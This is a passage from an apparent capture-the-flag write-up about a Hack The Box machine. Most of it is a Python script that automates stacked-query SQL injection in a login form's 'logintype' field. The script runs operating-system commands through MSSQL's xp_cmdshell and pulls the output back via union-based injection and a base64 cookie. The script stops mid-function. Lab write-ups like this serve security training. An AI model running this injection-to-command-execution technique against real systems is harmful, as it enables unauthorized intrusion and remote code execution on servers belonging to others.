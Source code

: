 Knowin this aplication is vulnerable to sql injeciton, I'm gonna make a script to automatized the process and try to execute commands via the sql injection with xp_cmdshell
``` python
#!/usr/bin/python3

from pwn import *
from base64 import b64decode
import requests, signal, pdb

def def_handler(sig, frame):
    print("\n\n[!] Leaving\n")
    dropTable()
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

# Global Variable
main_url = "http://members.streetfighterclub.htb/old/verify.asp"

def createTable():
    post_data = {
        'username': 'admin',
        'password': 'admin',
        'logintype': '2;create table rce(id int identity(1,1) primary key, output varchar(1024));-- -',
        'rememberme': 'ON',
        'B1': 'LogIn'
    }
    # creating rce table
    r = requests.post(main_url, data=post_data)

def truncateTable():
    post_data = {
        'username': 'admin',
        'password': 'admin',
        'logintype': '2;truncate table rce;-- -',
        'rememberme': 'ON',
        'B1': 'LogIn'
    }
    # truncate table
    r = requests.post(main_url, data=post_data)

def executeCommand(command):
    post_data = {
        'username': 'admin',
        'password': 'admin',
        'logintype': '2;insert into rce(output) exec Xp_cMdShEll "%s";-- -' % command,
        'rememberme': 'ON',
        'B1': 'LogIn'
    }
    # Execute command
    r = requests.post(main_url, data=post_data)
    
    post_data = {
        'username': 'admin',
        'password': 'admin',
        'logintype': '2 union select 1,2,3,4,(select top 1 id from rce order by id desc),6-- -',
        'rememberme': 'ON',
        'B1': 'LogIn'
    }
    # Get ID top counter
    r = requests.post(main_url, data=post_data, allow_redirects=False)
    topIdCounter = b64decode(r.headers['Set-Cookie'].split(";")[0].replace("Email=", "").replace("%3D", "=")).decode()
```